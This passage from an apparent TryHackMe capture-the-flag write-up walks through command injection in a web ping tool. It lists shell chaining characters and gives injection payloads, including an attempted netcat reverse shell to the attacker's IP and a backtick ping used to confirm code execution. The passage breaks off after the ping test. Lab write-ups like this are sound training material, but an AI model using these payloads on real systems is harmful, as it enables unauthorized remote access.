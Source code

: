 ### Command Injection Theory

The idea of command injection is to trick the server into executing our code as part of the `ping` command it is running on the back-end.

The first step is usually to use the functionality legitimately and see what happens. Entering an IP returns output that looks like this:

![[Pasted image 20211121224601.png]]

So it's likely the server is running a command like this:

```bash
$ ping -c 4 [USER_INPUT]
```

There are a few characters we can use to chain commands in linux. We could use any of the following in theory, and just need to test until we find one that works:
- `& [COMMAND]` to run our command if the intended command finishes executing
- `|| [COMMAND]` to run our command whether or not the intended command finishes executing
- `; [COMMAND]` to run our command immediately after the intended command
- `` `[COMMAND]` `` to run our command *first* (anything in backticks is evaluated then run as part of the original command)

For example, with a semicolon-based payload `0.0.0.0; echo "Code Execution!"` our command would look like this when evaluated by the server:

```bash
$ ping -c 4 0.0.0.0; echo "Code Execution!"
```

### Verifying Code Execution

We can try inputting the following into the input box to get a reverse shell immediately:

```
`nc -e /bin/bash 10.10.113.99 413`
```

This doesn't work, so let's try a `ping` command to verify whether or not we have *Remote Code Execution* via this command injection vulnerability.

We run a `tcpdump` command to listen for a ping (an ICMP request) on whatever interface we are using to connect to TryHackMe (if you're using Attack Box, it's `eth0` - if you're using OpenVPN, it's probably `tun0`):

```bash
$ sudo tcpdump -i [INTERFACE] -n icmp
```

Then we send a payload to ping our machine within the backticks:

```
`ping -c 1 10.10.113.99`127.0.0.1
```

We can see that this works (a little too well - we have a *lot* of ping requests coming back to our machine):
